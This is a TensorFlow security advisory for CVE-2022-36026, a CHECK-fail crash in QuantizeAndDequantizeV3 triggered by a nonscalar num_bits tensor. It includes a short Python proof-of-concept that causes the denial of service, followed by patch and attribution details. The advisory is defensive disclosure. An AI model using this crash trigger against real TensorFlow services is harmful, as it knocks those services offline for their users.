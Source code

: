 ## TFSA-2022-112: `CHECK` fail in `QuantizeAndDequantizeV3`

### CVE Number
CVE-2022-36026

### Impact
If `QuantizeAndDequantizeV3` is given a nonscalar `num_bits` input tensor, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

signed_input = True
range_given = False
narrow_range = False
axis = -1
input = tf.constant(-3.5, shape=[1], dtype=tf.float32)
input_min = tf.constant(-3.5, shape=[1], dtype=tf.float32)
input_max = tf.constant(-3.5, shape=[1], dtype=tf.float32)
num_bits = tf.constant([], shape=[0], dtype=tf.int32)
tf.raw_ops.QuantizeAndDequantizeV3(input=input, input_min=input_min, input_max=input_max, num_bits=num_bits, signed_input=signed_input, range_given=range_given, narrow_range=narrow_range, axis=axis)
```

### Patches
We have patched the issue in GitHub commit [f3f9cb38ecfe5a8a703f2c4a8fead434ef291713](https://github.com/tensorflow/tensorflow/commit/f3f9cb38ecfe5a8a703f2c4a8fead434ef291713).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
